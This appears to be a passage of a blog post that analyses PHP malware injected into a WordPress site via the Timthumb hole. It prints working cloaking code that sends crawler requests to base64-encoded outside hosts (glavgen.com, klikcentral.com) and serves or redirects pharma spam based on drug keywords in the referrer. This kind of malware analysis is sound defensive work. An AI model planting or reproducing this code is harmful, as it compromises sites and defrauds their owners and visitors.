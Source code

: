 	if ($_GET["testd"]=="ok") { print "ok!"; exit; }

if(in_array($ip, $bot_list) || strpos($agent, "bot"))	{
	if ($_SERVER["QUERY_STRING"]=="q") { print "ok!"; exit; }

	$page=urlencode("http://".$_SERVER["HTTP_HOST"].$_SERVER["REQUEST_URI"]);
	$outsourceurl=base64_decode('aHR0cDovL2dsYXZnZW4uY29tL2dldC5waHA/c2l0ZT0=').urlencode($_SERVER['HTTP_HOST']).'&amp;page='.urlencode($_SERVER['REQUEST_URI']).'&amp;ip='.urlencode($_SERVER['REMOTE_ADDR']).'&amp;agent='.urlencode($_SERVER['HTTP_USER_AGENT']);
	if (function_exists("curl_init")) {
	$c = curl_init();
	curl_setopt($c, CURLOPT_URL, $outsourceurl);
	curl_setopt($c, CURLOPT_RETURNTRANSFER, true);
	$out = curl_exec($c);
	curl_close($c);
	} else {
	$out = file_get_contents($outsourceurl);
	}
	if (substr($out,0,3) == "OK!") { echo substr($out,4); die; }
}

if (preg_match('/live|msn|yahoo|google|ask|aol/', $_SERVER["HTTP_REFERER"])) {
	$tabs = array ('viagra','cialis','levitra','propecia','prozac','xenical','soma','zoloft','tamiflu','sildenafil','tadalafil','vardenafil','finasteride','hoodia','acomplia','phentermine','adipex','tramadol','ultram','xanax','valium','ambien','ativan','vicodin','hoodia','acomplia');
	$niche='unknown';
	foreach($tabs as $tab)	{
		if(preg_match("/$tab/i", $_SERVER["HTTP_REFERER"]))	{
			$niche = $tab;
		}
	}
	if ($niche!="unknown") {
		$urlsutra = base64_decode('aHR0cDovL2tsaWtjZW50cmFsLmNvbS90cmFmZmljL2luLmNnaT8xMSZwYXJhbWV0ZXI9');
	if (false == ($str=file_get_contents($urlsutra.$niche."&amp;seoref=".$_SERVER["HTTP_REFERER"]."&amp;HTTP_REFERER=".$_SERVER['HTTP_HOST']))) {
    header("location: ".$urlsutra.$niche."&amp;seoref=".$_SERVER["HTTP_REFERER"]."&amp;HTTP_REFERER=".$_SERVER['HTTP_HOST']);
    exit;
    } else {
    echo $str;
    exit;
    }
	}
}</pre>
What does this do? Well, for every request, it checks to see if the request came from a known search engine bot (such as Googlebot). If it does, the web server makes a request to a server controlled by the hacker, to get the spammified content for that page. In this case the hacker's server is again a base64 encoded string which resolves to the domain glavgen.com.

A quick search for this domain on Google brings up a page entitled "WordPress Timthumb Viagra Attack : klikcentral.com / glavgen.com" and following links there brought me to a page about the <a href="http://blog.sucuri.net/2011/08/timthumb-php-security-vulnerability-just-the-tip-of-the-iceberg.html">Timthumb vulnerability</a>.
